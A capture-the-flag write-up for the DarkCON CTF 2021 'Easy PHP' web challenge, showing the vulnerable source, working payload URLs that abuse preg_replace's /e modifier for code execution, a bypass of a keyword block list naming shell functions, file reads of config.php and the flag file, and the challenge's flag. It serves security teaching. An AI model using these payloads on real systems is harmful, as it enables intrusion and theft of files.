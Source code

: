 # DarkCON CTF 2021 – Easy PHP

* **Category:** web
* **Points:** 384

## Challenge

> Please note....
> 
> Note: This chall does not require any brute forcing
> 
> http://easy-php.darkarmy.xyz/

## Solution

The normal webpage returns a welcome advice.

```
Welcome DarkCON CTF !!
```

But connecting to `http://easy-php.darkarmy.xyz/robots.txt` will reveal the following content.

```
?lmao
```

So you can connect to `http://easy-php.darkarmy.xyz/?lmao` which will return the following PHP code.

```php
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```

Basically you can craft your own `preg_replace`. For example, connecting to `http://easy-php.darkarmy.xyz/?bruh=test&nic3=/DarkCON/` will give you the following.

```
Welcome test CTF !!Welcome DarkCON CTF !!
```

The [`preg_replace` is subject to RCE using `/e`](https://medium.com/@roshancp/command-execution-preg-replace-php-function-exploit-62d6f746bda4).

`http://easy-php.darkarmy.xyz/?bruh=phpinfo()&nic3=/DarkCON/e` will return the `phpinfo()` output.

But `http://easy-php.darkarmy.xyz/?bruh=system(%27id%27)&nic3=/DarkCON/e` will be blocked by the `is_payload_danger` method.

With some analysis, you can discover that `fread` and `fopen` are available, so you can read `config.php` with a payload like the following, specifying the `config.php` filename in another GET parameter to bypass the check.

```
base64_encode(fread(fopen($_GET['pwn'],'r'),512))

http://easy-php.darkarmy.xyz/?bruh=base64_encode(fread(fopen($_GET[%27pwn%27],%27r%27),512))&nic3=/DarkCON/e&pwn=config.php
```

The response is the following.

```
Welcome PD9waHAKZnVuY3Rpb24gaXNfcGF5bG9hZF9kYW5nZXIoJHBheWxvYWQpIHsKCXJldHVybiBwcmVnX21hdGNoKCcvZXhlY3xwYXNzdGhydXxzaGVsbF9leGVjfHN5c3RlbXxwcm9jX29wZW58cG9wZW58Y3VybF9leGVjfGN1cmxfbXVsdGlfZXhlY3xwYXJzZV9pbmlfZmlsZXxyZWFkZmlsZXxyZXF1aXJlfHJlcXVpcmVfb25jZXxpbmNsdWRlfGluY2x1ZGVfb25jZXxwcmludHxmaW5kfGZpbGV8YHxjb25maWd8dmFyX2R1bXB8ZGlyLycsJHBheWxvYWQpOwp9Cj8+Cg== CTF !!Welcome DarkCON CTF !!
```

Decoding the base64, you can discover the source code.

```php
<?php
function is_payload_danger($payload) {
	return preg_match('/exec|passthru|shell_exec|system|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|readfile|require|require_once|include|include_once|print|find|file|`|config|var_dump|dir/',$payload);
}
?>
```

Using `glob` function, which is not blocked, you can find an interesting file.

```
http://easy-php.darkarmy.xyz/?bruh=glob(%22*.php%22)[1]&nic3=/DarkCON/e
```

```
Welcome flag210d9f88fd1db71b947fbdce22871b57.php CTF !!Welcome DarkCON CTF !!
```

You can read that file with the technique used before.

```
http://easy-php.darkarmy.xyz/?bruh=base64_encode(fread(fopen($_GET[%27pwn%27],%27r%27),512))&nic3=/DarkCON/e&pwn=flag210d9f88fd1db71b947fbdce22871b57.php
```

```
Welcome ZGFya0NPTnt3M2xjMG1lX0Q0cmtDMG5fQ1RGXzJPMjFfZ2d3cCEhISF9Cg== CTF !!Welcome DarkCON CTF !!
```

Decoding the base64 you can discover the flag.

```
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}
```